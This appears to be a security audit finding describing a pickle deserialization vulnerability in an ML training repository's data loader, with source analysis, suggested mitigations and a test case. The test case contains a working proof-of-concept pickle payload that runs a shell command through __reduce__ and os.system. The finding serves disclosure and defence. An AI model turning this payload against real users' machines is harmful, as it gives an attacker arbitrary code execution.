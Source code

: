 - Vulnerability Name: Deserialization of Untrusted Data via Pickle
- Description:
    1. An attacker modifies the preprocessed data file (e.g., `mwoz_64.pkl`) located in the `dataset/{args.data}/tokenized/` directory. This file is created by `utils.py` and contains pickled Python objects.
    2. The user downloads and runs `train.sh` or `test.sh`.
    3. `main.py` is executed, which in turn calls `utils.load_data(args, tokenizer)`.
    4. `utils.load_data` checks for the existence of the pickled data file. If it exists and `args.rewrite_data` is not set, it loads the data using `pickle.read_pkl`, which calls `pickle.load`.
    5. If the attacker has injected malicious code into the pickled data, `pickle.load` will execute this code during deserialization.
- Impact: Arbitrary code execution. The attacker can gain full control over the user's machine.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None. The code directly uses `pickle.load` without any safety measures.
- Missing Mitigations:
    - Avoid using pickle for loading data from potentially untrusted sources.
    - Use safer serialization formats like JSON or CSV if possible, or formats that are designed to be safe for deserialization.
    - If pickle is necessary, implement integrity checks (e.g., digital signatures) to ensure the data has not been tampered with.
    - Provide clear warnings to users about the security risks of running code from untrusted sources and advise them to only use original, unmodified scripts and data.
- Preconditions:
    - The attacker needs to be able to replace the preprocessed data files in the `dataset/{args.data}/tokenized/` directory before the user runs the training or testing scripts. This is feasible in a social engineering attack scenario where the attacker distributes a modified version of the repository.
    - The user must execute `train.sh` or `test.sh` (or directly `main.py`) without the `--rewrite_data` flag, so that the existing pickle file is loaded.
- Source Code Analysis:
    1. In `/code/src/utils.py`, the function `read_pkl(filename)` is defined:
       ```python
       def read_pkl(filename):
           with open(filename, 'rb') as f:
               return pickle.load(f)
       ```
       This function uses `pickle.load` to deserialize data from a file. `pickle.load` is known to be vulnerable to arbitrary code execution if the data source is untrusted.
    2. This function is called by `load_data(args, tokenizer)` in `/code/src/utils.py`:
       ```python
       if os.path.exists(f'{dirname}/tokenized/{args.data}_{args.max_seq_len}.pkl') and not args.rewrite_data:
           return read_pkl(f'{dirname}/tokenized/{args.data}_{args.max_seq_len}.pkl')
       ```
       The `load_data` function checks if a pre-tokenized data file exists. If it does and the `rewrite_data` flag is not set, it loads the data from the pickle file using `read_pkl`.
    3. `load_data` is called in `/code/src/main.py` in both training and evaluation modes.
    4. `train.sh` and `test.sh` scripts execute `main.py` without `--rewrite_data`, making the code vulnerable by default if malicious pickle files are present.
- Security Test Case:
    1. Prepare malicious pickle file:
       - Create a malicious Python object that executes code when unpickled. For example, create a file named `malicious_pickle_gen.py` with the following content:
         ```python
         import pickle
         import os

         class Malicious(object):
             def __reduce__(self):
                 return (os.system, ('touch /tmp/pwned',))

         malicious_data = {'train': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': [Malicious()]}, 'valid': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': []}, 'test': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': []}, 'act_list': {}}

         with open('/tmp/malicious_mwoz_64.pkl', 'wb') as f:
             pickle.dump(malicious_data, f)
         ```
       - Run `python malicious_pickle_gen.py` to generate the malicious pickle file `/tmp/malicious_mwoz_64.pkl`.
    2. Replace legitimate data file:
       - Assume the user is using `mwoz` dataset and `max_seq_len=64`.
       - Replace the file `/code/dataset/mwoz/tokenized/mwoz_64.pkl` with `/tmp/malicious_mwoz_64.pkl`. Use the command: `cp /tmp/malicious_mwoz_64.pkl /code/dataset/mwoz/tokenized/mwoz_64.pkl`
    3. Run training script:
       - Navigate to the `/code` directory: `cd /code`
       - Execute the training script: `./train.sh`
    4. Check for execution:
       - After running the script, check if the file `/tmp/pwned` exists. Use the command: `ls /tmp/pwned`. If this command shows the file `/tmp/pwned`, it confirms that the malicious code from the pickle file was executed, demonstrating the vulnerability.